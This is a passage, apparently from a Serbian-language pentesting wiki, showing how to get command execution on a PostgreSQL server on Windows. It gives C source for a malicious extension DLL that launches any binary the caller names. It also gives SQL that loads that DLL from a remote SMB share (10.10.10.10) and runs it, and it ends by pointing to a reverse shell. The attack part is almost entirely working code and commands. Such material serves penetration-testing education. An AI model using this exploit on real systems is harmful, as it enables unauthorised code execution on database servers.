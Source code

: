Sledeća DLL datoteka uzima kao ulaz **ime binarne datoteke** i **broj** **puta** koje želite da je izvršite i izvršava je:

```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum pgsql_exec(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(pgsql_exec);

/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed*/
Datum
pgsql_exec(PG_FUNCTION_ARGS)
{
/* convert text pointer to C string */
#define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

/* retrieve the second argument that is passed to the function (an integer)
that will serve as our counter limit*/

int instances = PG_GETARG_INT32(1);

for (int c = 0; c < instances; c++) {
/*launch the process passed in the first parameter*/
ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
}
PG_RETURN_VOID();
}
```

Možete pronaći DLL kompajliran u ovom zipu:

{% file src="../../../.gitbook/assets/pgsql_exec.zip" %}

Možete naznačiti ovom DLL-u **koju binarnu datoteku da izvrši** i koliko puta da je izvrši, u ovom primeru će izvršiti `calc.exe` 2 puta:

```bash
CREATE OR REPLACE FUNCTION remote_exec(text, integer) RETURNS void AS '\\10.10.10.10\shared\pgsql_exec.dll', 'pgsql_exec' LANGUAGE C STRICT;
SELECT remote_exec('calc.exe', 2);
DROP FUNCTION remote_exec(text, integer);
```

U [**ovde**](https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html) možete pronaći ovaj reverzni shell:
